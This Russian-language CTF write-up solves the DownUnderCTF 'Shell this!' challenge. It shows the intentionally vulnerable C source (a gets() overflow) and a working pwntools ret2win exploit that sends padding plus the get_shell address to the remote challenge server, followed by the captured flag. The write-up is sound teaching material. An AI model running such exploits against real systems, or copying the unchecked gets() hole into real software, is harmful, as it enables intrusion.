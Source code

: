 # Shell this! (100 points, 340 solves)

> Somebody told me that this program is vulnerable to something called remote code execution?
>
> I'm not entirely sure what that is, but could you please figure it out for me?
>
> nc chal.duc.tf 30002

Для этого задания авторы расщедрились и помимо бинаря [shellthis](./shellthis) скинули исходник 
[shellthis.c](./shellthis.c):
```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

Ого, функция `get_shell()` даёт нам shell! Жаль, что она нигде не вызывается... Так, функция `vuln()`
своим названием подсказывает, что смотреть надо в неё. И действительно, там есть вызов `gets()`. Для тех, кто
не знает:
```shell script
$ man 3 gets
DESCRIPTION
       Never use this function.

       gets()  reads  a  line from stdin into the buffer pointed to by s until either a terminating newline or EOF, 
       which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see
       BUGS below).
...
BUGS
       Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters 
       gets() will read, and because gets() will continue to store characters past the end of the
       buffer, it is extremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.

       For more information, see CWE-242 (aka "Use of Inherently Dangerous Function") at http://cwe.mitre.org/data/definitions/242.html
```

Получается, у нас тут стандартное переполнение буфера (buffer overflow). Я не буду вдаваться в подробности о том, что
это такое и как оно работает. Советую почитать примеры из Интернета или посмотреть серию роликов от [LiveOverflow](https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13).
Если кратко, нам нужно найти такое количество символов, которое подведёт к перенаправлению исполнения туда, куда нам надо.
На заре своей карьеры я всё это делал руками с gdb, но это довольно долго (но полезно для понимания происходящего!). Во
время реальных соревнований стоит воспользоваться [pwntools](https://github.com/Gallopsled/pwntools).

### Шаг 1 — найти нужное количество символов для переполнения

Делается это просто:
```python
from pwn import *
io_local = process('./shellthis')

io_local.recv()
io_local.sendline(cyclic(100, n=8))
io_local.wait()
core = Core('./core')
offset = cyclic_find(core.fault_addr, n=8)
print(offset)
```

Работает это примерно так — в качестве входной строки закидывается строка определённого вида. Причём длина настолько 
большая, что программа просто крашится и генерирует core-файл. Далее из него вычитывается адрес, на котором
произошёл краш, и находится оффсет этой последовательности в исходной строке.

### Шаг 2 — находим адрес, куда надо перенаправить программу

Что же, это лёгкий пример, и у нас прямо тут есть функция `get_shell()`. Нам просто нужно достать адрес этой функции и
передать его. Делается это так:
```python
e = ELF('./shellthis')
win = e.symbols['get_shell']
```

### Шаг 3 — отправляем наш вредоностный инпут

Можно сразу направить это всё на сервер, флаг всё же там находится:
```python
io = remote('chal.duc.tf', 30002)

data = io.recv()  # Считываем приветствие
p = offset * b'A'  # Переполняем буфер
p += p64(win)  # И добавляем адрес функции get_shell()
io.sendline(p)  # Отправляем
io.interactive()  # Переходим в интерактивный режим
```

Результат:
```shell script
$ ls
flag.txt shellthis
$ cat flag.txt
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```

Полный код [эксплоита](./shell_this.py).
